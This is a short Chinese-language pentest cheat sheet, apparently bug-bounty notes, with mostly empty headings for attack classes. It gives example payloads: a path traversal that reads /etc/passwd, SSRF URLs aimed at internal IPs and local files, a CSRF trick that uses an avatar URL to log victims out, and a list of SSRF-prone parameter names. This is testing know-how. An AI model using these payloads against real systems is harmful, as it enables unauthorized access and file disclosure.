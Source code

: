 ### 拒绝服务的漏洞（谨慎挖掘，推荐只挖掘客户端）

### 存储 XSS

###  RCE

### 任意文件读取

```
http://www.example.com?achtion=cat&file=../../../etc/passwd
```

### csrf

攻击者使用自己的账号构造操作请求包，当受害者访问时会进行相应操作如：修改密码、转账

类似于 ssrf 可在很多位置操作，如：修改资料将头像修改为退出登录（直接提交访问 `https://xxxxxxxxx.com/logout` 会退出登录可能不收，可进行 csrf 的二次利用，）

```
username=ggb&images=https://xxxxxxxxx.com/xxxxxxxxxxxx.png
可构造为用户退出
username=ggb&images=https://xxxxxxxxx.com/logout
此时加载受害者加载攻击者头像时就会退出登录，记得保存正常 的数据包，否则自己的账号会无法登录
```

### ssrf

利用 Web 访问目标内网 

```
http://example.com?url=http://192.168.1.1
http://example.com?url=http://localhost
http://example.com?url=file:///etc/passwd
http://example.com?url=file:///C:/Windows/win.ini
```

ssrf 常见位置

```
分享：通过URL地址分享网页内容
转码服务
在线翻译
图片加载与下载：通过URL地址加载或下载图片
图片、文章收藏功能
未公开的 api 实现以及其他调用 URL 的功能
URL 关键字：share,wap,url,link,src,source,target,u,3g,display,sourceURL,imageURL,domain
```

nday

```
https://blog.csdn.net/haha13l4/article/details/99099441
```

### sql 注入
